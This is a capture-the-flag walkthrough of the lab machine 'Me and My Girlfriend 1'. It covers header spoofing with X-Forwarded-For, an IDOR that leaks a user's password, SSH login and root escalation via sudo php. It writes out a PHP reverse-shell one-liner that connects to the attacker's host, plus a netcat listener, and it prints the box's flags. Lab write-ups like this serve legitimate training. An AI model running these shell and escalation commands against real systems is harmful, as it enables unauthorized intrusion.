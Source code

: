 
# Me and My Girlfriend 1: Walkthrough

To find the IP of the VM, I performed an ARP scan:  
![img](./ss/arp.png)\
Found the IP: `192.168.122.3`

## Step 1: Nmap Scan
Performed an Nmap scan:  
![img](./ss/nmap.png)\
Discovered Apache is running. Let’s access it.

## Step 2: Accessing the Web Page
Accessing the IP in browser led to an access denied page:  
![img](./ss/site.png)\
**Tip:** Always check source code of pages.  
Found a hidden message in the source:  
![img](./ss/sourcecode.png)\
It hinted at using `X-Forwarded-For` header.

## Step 3: Using BurpSuite to Add Header
I opened BurpSuite, intercepted the request and added the `x-forwarded-to` header:  
![img](./ss/burp.png)\
Success! Gained access to "Ceban Corp":  
![img](./ss/ceban.png)

## Step 4: Exploring the App
Tried SQL injection on login page – didn’t work. So I registered an account:  
![img](./ss/rgstr.png)\
Logged in and checked profile section. The URL had an `id` parameter:  
![img](./ss/profile.png)

## Step 5: Testing for IDOR
Suspected an IDOR vulnerability – tested by changing `id` values. It worked!  
Stumbled upon an interesting user profile page with `id=5`,
Box description mentioned “Alice” so this user is important: 
![img](./ss/alice.png)\
Modified input type using browser dev tools and revealed password: `4lic3`  
![img](./ss/inspect.png)
![img](./ss/4lic3.png)

## Step 6: SSH Access
Since SSH was running, tried Alice’s creds:  
![img](./ss/ssh.png)\
And BOOM! Got in as alice.

## Step 7: Getting the User Flag
Couldn’t find anything obvious, so I explored hidden directories. Found a hidden directory `my_secret`:  
![img](./ss/ls.png)\
Inside the `my_secret` folder – flag1.txt: `gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}` and a note \
(poor Bob):  
![img](./ss/flag1.png)\

## Step 8: Privilege Escalation
Checked sudo permissions – saw Alice can run PHP as root:  
![img](./ss/sudo.png)\
Upgraded to root with the following command as PHP is sudo-able:  
```bash
sudo php -r 'system("/bin/bash");'
```  
![img](./ss/php.png)\

### Alternative method:
```bash
sudo php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
note: IP is the ip of attack device not of the victim device.\
And on another terminal(to recieve):  
```bash
nc -pvl PORT
```

## Step 9: Getting the Root Flag
Now that we’re root, headed for the flag:  
![img](./ss/flag2.png)\
Found: `gfriEND{56fbeef560930e77ff984b644fde66e7}`

---

## 🏁 Conclusion

This box was a great mix of basic enumeration, bypass techniques, and web exploitation (X-Forwarded-For header, IDOR, dev tools).  
It reinforced the importance of:

- Always checking page source and URLs
- Thinking from a user access point of view
- Exploring every input for unintended access or leakage

Loved the progression from simple access control to privilege escalation. On to the next one! 💥
